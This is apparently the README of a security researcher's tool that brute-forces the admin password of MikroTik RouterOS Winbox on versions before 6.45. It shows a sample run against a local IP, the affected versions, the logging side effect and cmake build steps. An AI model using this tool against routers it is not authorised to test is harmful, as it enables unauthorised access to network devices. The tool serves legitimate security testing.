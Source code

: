 # Winbox Bruteforce

The Winbox interface, port 8291, has... let's say absolutely no bruteforce protection if you can reach it. There is a feature that limits which IPs can connect to it, but if you are in that IP range or it isn't set then you can brute force it to your hearts content.

This project takes a list of passwords, and IP address, and a port. It will keep sending login requests for the 'admin' user until its out of passwords to try or it found a valid request.

Sample:

```
albinolobster@ubuntu:~/routeros_internal/brute_force/winbox_brute/build$ time ./winbox_bruteforce -f ~/top10000.txt -i 192.168.1.23 -p 8291 2> /dev/null
[+] Loading password file...
[+] Found 10000 passwords.
10000 / 10000
We found the password! Use admin:lolwat

real    0m39.205s
user    0m1.041s
sys     0m5.797s
```

## What versions does this work on?

Any RouterOS version less than 6.45. 6.45 changed a lot of login stuff (probably still bruteforceable but I don't know how login works at the moment).

## Are there side affects?

Oh yeah. All log in attempts are written to the log file... it gets long pretty quick.

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.
